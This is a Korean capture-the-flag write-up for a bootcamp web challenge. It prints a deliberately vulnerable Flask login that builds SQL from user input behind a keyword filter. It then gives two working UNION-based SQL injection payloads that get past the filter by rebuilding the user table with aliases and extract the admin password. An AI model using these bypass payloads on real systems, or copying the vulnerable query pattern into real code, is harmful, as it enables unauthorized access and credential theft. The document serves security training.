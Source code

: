 ```yaml
---
title: "[Writeup] Knockon Bootcamp - 3.5 SQLi_WAF_5"
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - SQL Injection
  - Filter Bypass
last_modified_at: 2024-08-30T00:10:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10034/>

![3.5 SQLi WAF 5 1](/assets/images/writeup/web-hacking/knock-on/3-5_SQLi_WAF_5_1.png)

![3.5 SQLi WAF 5 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.5 SQLi WAF 5 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정의 비밀번호 알아내기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

## 코드 분석

### login()

---

```sql
filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
```

따옴표는 쓸 수 있음.

|

```sql
if user:
	return redirect(url_for("success", username=user[1]))
```

로그인 성공 시, `success`로 이동하며 `user[1]`을 넘겨줌

|

|

### success()

---

```sql
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)
```

`success.html`를 렌더링 하면서 `username`과 `flag`를 넘겨주지만, `login()`함수에서는 `user[1]`변수만 넘겨줬기 때문에 변수의 값에 따라 `username` 혹은 `flag` 둘 중 하나만 화면에 나타남

즉, `user[1]`을 `username`이 아니라 flag인 `password`로 직접 변경해줘야 함

|

|

|

## 문제 풀이

```sql
' union select 1,2,3 #
```

쿼리를 입력하면 `user[1]` 부분인 2가 화면에 출력됨

|

```sql
union select 1,password,3 from user where username like 'admin'
```

실행하고자 하는 쿼리는 이런 형태임

|

```sql
union select 1,password,3 from (재구성테이블) where username like 'admin'
```

테이블을 재구성하여 **‘password’**의 **‘or’**을 우회해야 함

|

```sql
-- 테이블 재구성
(select 1, 2 as name, 3 as pw
union
select * from user)owo
```

|

```sql
union
select 1,pw,3 from (
	select 1, 2 as name, 3 as pw
	union
	select * from user)owo
where name like 'admin'
```

테이블 장착

|

|

|

## Exploit

### 방법 1

---

```sql
username: ' UNION SELECT 1, pw, 3 FROM (SELECT 1, 2 AS name, 3 AS pw UNION SELECT * FROM user)owo WHERE name like 'admin' #

password: 1
```

|

### 방법 2

---

```sql
username: ' UNION SELECT 1, (select pw from (select 1,2 as name,3 as pw union select * from user)owo where name like 'admin'), 3 #

password: 1
```

|

|

### FLAG

---

```python
K0{good_4ft3rn00n!}
```

|